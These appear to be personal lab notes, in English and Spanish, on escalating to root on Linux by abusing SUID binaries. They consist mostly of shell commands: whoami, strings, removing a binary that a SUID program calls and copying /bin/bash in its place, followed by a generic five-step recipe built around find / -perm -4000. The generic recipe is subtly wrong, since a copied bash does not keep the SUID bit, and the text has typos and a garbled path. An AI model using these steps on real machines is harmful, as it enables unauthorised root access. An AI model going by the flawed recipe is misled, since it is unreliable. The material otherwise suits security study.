 are used to provide unprivileged users whit the ability to run specific scripts or binaries whit "root" permissions.

Succes of attack will depend on the following factors: 
- Owner of the SUID binary - TODO
- access permision - we will requiere executable permissions in order to execute the suid binary  

- Commands:
```bash
whoami 
groups name_of_whoami
ls -al (to see the binaries)
# ./grettings        ./welcome
./greetings (one binary)
#bash: ./grettings: permission denied
file welcome
strings welcome (give us list of strings within the binary)
#/lib64/ld0linux-x86-64.so.2
#setuid
#greetings
rm greetings
cp /bin/bash greetings
ls 
#greetings           welcome
./welcome
id 
```


**PASOS**:
1. Encontrar un binario con SUID:  ```find / -perm -4000 2>/dev/null```
2. **Verificar que puedes modificar el binario**
3. **Eliminarlo**: `rm /ruta/del/binario`
4. **Reemplazarlo**: `cp /bin/bash /ruta/del/binario`
5. **Ejecutar el binario para obtener un shell de Bash con los privilegios del propietario del binario (generalmente root)**: `./binario_reemplazado
`